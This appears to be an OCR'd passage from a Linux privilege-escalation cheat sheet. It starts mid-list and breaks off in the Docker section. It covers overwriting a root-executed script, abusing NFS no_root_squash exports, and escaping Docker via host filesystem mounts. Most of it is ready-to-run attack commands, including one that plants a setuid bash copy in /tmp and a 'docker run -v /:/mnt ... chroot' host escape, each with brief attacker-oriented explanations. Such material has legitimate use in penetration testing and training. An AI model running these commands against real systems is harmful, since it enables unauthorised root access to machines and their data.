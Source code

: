         bash

        echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /usr/local/bin/overwrite.sh

        Explanation: If a file that is executed by a privileged user is writable, it can be overwritten with malicious code that escalates privileges.

Methodology and Tactics:
File overwrite exploits rely on the attacker having write access to scripts or binaries that are executed by root or another privileged user. By carefully selecting which files to overwrite, attackers can escalate their privileges.
18. NFS (Network File System)

NFS allows for file sharing over a network. Misconfigurations in NFS exports can allow attackers to gain elevated privileges.

    Checking for NFS Exports:
        cat /etc/exports: Checks for NFS shares, looking specifically for the no_root_squash option, which allows root privileges on the NFS client.

        bash

    cat /etc/exports

    Explanation: The no_root_squash option means that files created by the root user on the client are also owned by root on the server, which can be exploited for privilege escalation.

Mounting and Exploiting NFS Shares:

    mkdir /tmp/mountme && mount -o rw,vers=2 <target IP>:/exported/dir /tmp/mountme: Mounts the NFS share with read/write permissions.

    bash

        mkdir /tmp/mountme && mount -o rw,vers=2 <target IP>:/exported/dir /tmp/mountme

        Explanation: Once mounted, attackers can exploit the NFS share to modify files or execute scripts with elevated privileges.

Methodology and Tactics:
NFS exploits take advantage of weak configurations that allow non-root users to gain root privileges on the server by manipulating files on the client.
19. Docker

Docker containers, if misconfigured, can allow for privilege escalation to the host system.

    Enumerating Docker Capabilities:
        docker images and docker ps -a: Lists available Docker images and running containers, which can help identify misconfigured containers.

        bash

    docker images
    docker ps -a

    Explanation: Misconfigured Docker containers might allow for escaping the container and gaining access to the host system.

Escaping the Docker Container:

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh: Attempts to escape the container by mounting the root filesystem of the host and chrooting into it.
